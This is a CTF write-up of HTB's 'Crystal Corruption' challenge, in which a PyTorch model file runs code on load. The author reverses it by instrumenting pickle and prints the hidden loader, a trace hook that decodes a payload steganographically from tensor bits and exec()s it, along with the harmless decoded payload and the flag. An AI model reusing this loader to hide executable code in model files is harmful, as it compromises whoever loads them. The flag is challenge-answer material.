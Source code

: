 ```yaml
---
ctf: CyberApocalypse 2025
published: 2025-04-02
tags:
- AI
title: Crystal Corruption

---
```


This was the second Machine Learning challenge from HTB’s cyber apocalypse CTF and probably the one I enjoyed the most, in fact we are given a `resnet18.pth` and when we load it in the same way as the previous challenge we get immediately pwned, wow

```Python
Connecting to 127.0.0.1
Delivering payload to 127.0.0.1
Executing payload on 127.0.0.1
You have been pwned!
```

This is a very plausible exploit… too much plausible

Fortunately it’s just a CTF, so I started to look into `pytorch` source code and I found that `.pth` is basically just a wrapped `pickle`

I never fully understood how pickle worked until this challenge and I was amazed, it basically creates bytecode from a file and sends it to the interpreter.  
Now cool enough there is also a pure python implementation besides the C one in python.  

I replaced the default pickle class with a custom one copy-pasted from python source, I added a few prints and I discovered that an `exec` is called with the following args

```Python
import sys
import torch

def stego_decode(tensor, n=3):
    import struct
    import hashlib
    import numpy

    bits = numpy.unpackbits(tensor.view(dtype=numpy.uint8))
    payload = numpy.packbits(numpy.concatenate([numpy.vstack(tuple([bits[i::tensor.dtype.itemsize * 8] for i in range(8-n, 8)])).ravel("F")])).tobytes()
    (size, checksum) = struct.unpack("i 64s", payload[:68])
    message = payload[68:68+size]

    return message

def call_and_return_tracer(frame, event, arg):
    global return_tracer
    global stego_decode
    def return_tracer(frame, event, arg):
        if torch.is_tensor(arg):
            payload = stego_decode(arg.data.numpy(), n=3)
            if payload is not None:
                sys.settrace(None)
                exec(payload.decode("utf-8"))

    if event == "call" and frame.f_code.co_name == "_rebuild_tensor_v2":
        frame.f_trace_lines = False
        return return_tracer

sys.settrace(call_and_return_tracer)
```

It is a payload runner, so given that I am more a dymaic analysis kind of guy I actually replaced the tunner with a custom one that prints the decoded payload before evaluating it

```Python
PAYLOAD = """
import sys
import torch

def stego_decode(tensor, n=3):
    import struct
    import hashlib
    import numpy

    bits = numpy.unpackbits(tensor.view(dtype=numpy.uint8))
    payload = numpy.packbits(numpy.concatenate([numpy.vstack(tuple([bits[i::tensor.dtype.itemsize * 8] for i in range(8-n, 8)])).ravel("F")])).tobytes()
    (size, checksum) = struct.unpack("i 64s", payload[:68])
    message = payload[68:68+size]

    return message

def call_and_return_tracer(frame, event, arg):
    global return_tracer
    global stego_decode
    def return_tracer(frame, event, arg):
        if torch.is_tensor(arg):
            payload = stego_decode(arg.data.numpy(), n=3)
            if payload is not None:
                sys.settrace(None)
                print(payload)
                exec(payload.decode("utf-8"))

    if event == "call" and frame.f_code.co_name == "_rebuild_tensor_v2":
        frame.f_trace_lines = False
        return return_tracer

sys.settrace(call_and_return_tracer)"""
```

replaced pickle function loading

```Python
    def load_reduce(self):
        stack = self.stack
        args = stack.pop()
        func = stack[-1]
        if func.__name__ == 'exec':
            print(func.__name__)
            print(args)
            stack[-1] = exec(PAYLOAD)
        else:
            stack[-1] = func(*args)
```

and here we go with the decoded payload

```Python
import os
def exploit():
    connection = f"Connecting to 127.0.0.1"
    payload = f"Delivering payload to 127.0.0.1"
    result = f"Executing payload on 127.0.0.1"
    print(connection)
    print(payload)
    print(result)
    print("You have been pwned!")
hidden_flag = "HTB{n3v3r_tru5t_p1ckl3_m0d3ls}"
exploit()
```